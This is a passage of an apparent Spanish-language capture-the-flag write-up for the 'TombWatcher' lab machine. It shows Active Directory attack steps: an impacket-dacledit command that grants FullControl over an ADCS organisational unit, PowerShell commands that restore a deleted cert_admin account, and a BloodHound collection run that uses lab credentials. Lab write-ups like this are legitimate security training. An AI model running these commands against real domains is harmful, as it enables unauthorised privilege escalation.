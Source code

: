 <img width="1600" height="584" alt="image (16)" src="https://github.com/user-attachments/assets/7021dbc2-76c5-4d11-979e-e79963543587" />

en bloodhound tambien podemos ver

<img width="1920" height="1011" alt="image" src="https://github.com/user-attachments/assets/00bcbe9f-727a-4bac-bb1e-d7debaafa300" />

>>> Esto significa que el usuario JOHN puede manipular completamente el servicio ADCS del dominio



Con el control total de la unidad organizativa (OU), puede agregar una nueva ACE que heredará hasta los objetos bajo ella. La forma más sencilla y directa de abusar del control de la unidad organizativa (OU) es aplicarle una ACE GenericAll que herede todos los tipos de objeto. Esto se puede hacer usando dacledit de Impacket 

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Darksblack10.'
```

<img width="1920" height="173" alt="image" src="https://github.com/user-attachments/assets/3bfff607-6808-48be-9107-1541fc5740df" />

ahora desde la instancia de `evil-winrm` podemos conseguir un usuario el cual fue eliminado

```powershell
Get-ADObject -Filter {isDeleted -eq $true -and ObjectClass -eq 'user'} -IncludeDeletedObjects -Properties *
```

<img width="1920" height="965" alt="image" src="https://github.com/user-attachments/assets/63f09e14-68eb-402e-8a49-156fca909172" />

Restauramos el usuario `cert_admin`

```powershell
Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf"
```
>>> Activamos el usuario a traves del ObjectGUID 938182c3-bf0b-410a-9aaa-45c8e1a02ebf ya que es el que resulta tener los privilegios necesarios para
>>> poder explotar el certificado (Los demas ObjectGUID al testearlos no tenian los privilegios adecuados)

y verificamos

```powershell
Get-ADUser -Identity "cert_admin" -Properties *
```

<img width="1920" height="1007" alt="image" src="https://github.com/user-attachments/assets/8a6a9a79-6016-474a-82e5-8627a1db17cc" />

volvemos a recopilar informacion con `bloodhound-python`

```bash
bloodhound-python -u 'john' -p 'Darksblack10.' -d tombwatcher.htb -ns 10.10.11.72 -c ALl --zip
```

<img width="1920" height="471" alt="image" src="https://github.com/user-attachments/assets/61863385-4e61-4bd3-8a0a-72c5f9e292b4" />

exportamos a bloodhound

